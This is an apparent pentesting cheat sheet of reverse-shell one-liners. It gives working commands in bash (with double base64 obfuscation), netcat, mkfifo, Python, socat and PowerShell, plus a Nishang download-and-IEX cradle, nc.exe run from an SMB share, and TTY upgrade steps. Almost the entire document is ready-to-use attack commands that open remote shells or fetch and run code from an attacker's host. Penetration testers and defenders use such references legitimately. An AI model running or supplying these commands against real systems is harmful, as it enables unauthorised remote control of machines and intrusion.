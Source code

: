 # Reverse Shells

### Reverse Shells

#### Reverse Shell Generator

[https://www.revshells.com/](https://www.revshells.com/)

#### Bash

```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}

We can encode the content in **base64**, to avoid conflicts with symbols and spaces in URLs. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

```bash
# Get the encoded command
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64

# Execute the reverse shell
echo <b64_code> | base64 -d | base64 -d | bash
```

#### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

#### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

#### Python3

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python3
```
{% endcode %}

#### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

#### PowerShell

**Base64**

{% code overflow="wrap" %}
```bash
# Get the encoded command
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le | base64 -w 0; echo

# Execute the reverse shell
powershell -e <b64_code>
```
{% endcode %}

**Nishang**

Run this on your local machine:

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && curl -sL https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o rs.ps1 && echo "Invoke-PowerShellTcp -Reverse -IPAddress $i -Port $p" >> rs.ps1 && python3 -m http.server 80
```
{% endcode %}

And while running the python http server, execute this on the target:

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<ip>/rs.ps1')" 
```

**Netcat**

Locate "nc.exe" and copy it to your current directory, then run this on your local machine:

```bash
smbserver.py <share_name> $(pwd) -smb2support
```

And while running the smb server, execute this on the target:

```html
\\<ip>\smbShare\nc.exe -e cmd <ip> <port>
```

### Interactive TTY

{% hint style="info" %}
It is also possible to use `rlwrap` when starting your listening socket:

```bash
rlwrap -cAr nc -nlvp <port>
```
{% endhint %}

```bash
script /dev/null -c bash
```

or

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and then

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```

